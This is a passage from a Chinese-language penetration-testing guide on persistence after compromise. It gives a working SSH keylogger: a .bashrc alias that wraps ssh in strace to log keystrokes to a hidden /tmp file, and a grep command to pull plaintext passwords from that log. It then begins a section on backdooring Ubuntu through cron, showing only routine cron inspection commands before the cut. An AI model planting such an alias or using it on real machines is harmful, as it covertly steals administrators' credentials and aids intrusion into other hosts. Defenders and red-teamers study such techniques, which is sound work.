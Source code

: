 ### 3.3 SSH Keylogger记录密码

当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

~~~
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect - s2048 ssh'
~~~

设置完毕后，倘若当前系统不存在alias，那么就会影响其正常使用：

![image-20220921213259555](权限维持.assets/image-20220921213259555.png)

~~~
grep -A 9 'password' .ssh-2210月101634901802.log
~~~

## 4. Ubuntu利用Cron机制安装后门

首先，说明一下，Cron是ubuntu下默认启动的用户执行计划，他会按照设置，在固定的周期或者按照一定时间执行某一个任务。它是一项服务，你可以使用基本的服务查看状态命令等查看信息。

~~~
service cron status
~~~

查看普通用户的执行计划。（如果你显示没有计划不要着急，后面加上cron.allow和cron.deny）就有了

~~~
crontab -l
~~~

![image-20220921213820499](权限维持.assets/image-20220921213820499.png)

查看crontab的选项
查看具体的用户的执行计划
